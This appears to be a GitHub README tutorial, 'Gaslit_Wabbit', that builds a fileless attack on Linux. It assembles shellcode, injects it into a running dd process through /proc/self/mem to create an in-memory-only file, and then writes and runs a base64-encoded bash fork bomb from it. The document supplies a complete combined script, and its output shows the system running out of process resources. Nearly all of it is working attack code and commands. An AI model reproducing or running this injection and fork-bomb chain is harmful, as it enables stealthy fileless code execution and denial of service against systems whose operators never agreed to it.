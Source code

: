 # Gaslit_Wabbit

##1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
- ```#define __NR_memfd_create 319```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
- ```#define __NR_pause 34```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
- ```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

let's remove what we don't need,
```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12
```
- ```55555555400```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```
let's remove what we don't need,

```shell
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```
- ```681b```

we see the PID addresses are,
- ```0x555555554000```
- ```0x681b```

now, let's put that into some variables,

```bash
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```

now, let's create some shellcode that uses the hexdump and PID addresses to create an in-memory-only file,
```shell
echo -n -e "\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 0x$pid_address_1 + 0x$pid_address_2 )) conv=notrunc 10<&0 11<&1 & sudo ls -al /proc/$(pidof dd)/fd/
```

now, let's create a wabbit virus that we can encode to the in-memory-only file,

```bash
#!/bin/bash
:(){ :|:& };:
```

```shell
chmod +x wabbit.sh
```

```shell
cp wabbit.sh wabbit
```
now let's base64 encode it,
```shell
cat wabbit | base64 -w0 ; echo
```
- ```IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=```

then, transfer it to the in-memory-only file,

```shell
echo "IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=" | base64 -d > /proc/`pidof dd`/fd/3
```

and finally, run the in-memory-only file,
```shell
/proc/`pidof dd`/fd/3 -a
```

putting it all together we have,

```bash
#!/bin/bash
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
echo -n -e "\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 0x$pid_address_1 + 0x$pid_address_2 )) conv=notrunc 10<&0 11<&1 & sudo ls -al /proc/$(pidof dd)/fd/
echo "IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=" | base64 -d > /proc/`pidof dd`/fd/3
/proc/`pidof dd`/fd/3 -a
```

and running it, we have,

```shell
sudo chmod +x gaslit_wabbit.sh
```
```shell
sudo ./gaslit_wabbit.sh
```
```
dr-x------ 2 admin admin  0 Mar  3 19:15 .
dr-xr-xr-x 9 admin admin  0 Mar  3 19:15 ..
lr-x------ 1 admin admin 64 Mar  3 19:15 0 -> 'pipe:[15084]'
lrwx------ 1 admin admin 64 Mar  3 19:15 1 -> /dev/pts/0
lr-x------ 1 admin admin 64 Mar  3 19:15 10 -> 'pipe:[15084]'
lrwx------ 1 admin admin 64 Mar  3 19:15 11 -> /dev/pts/0
lrwx------ 1 admin admin 64 Mar  3 19:15 2 -> /dev/pts/0
lrwx------ 1 admin admin 64 Mar  3 19:15 3 -> '/memfd:soCx (deleted)'
```
```
proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
```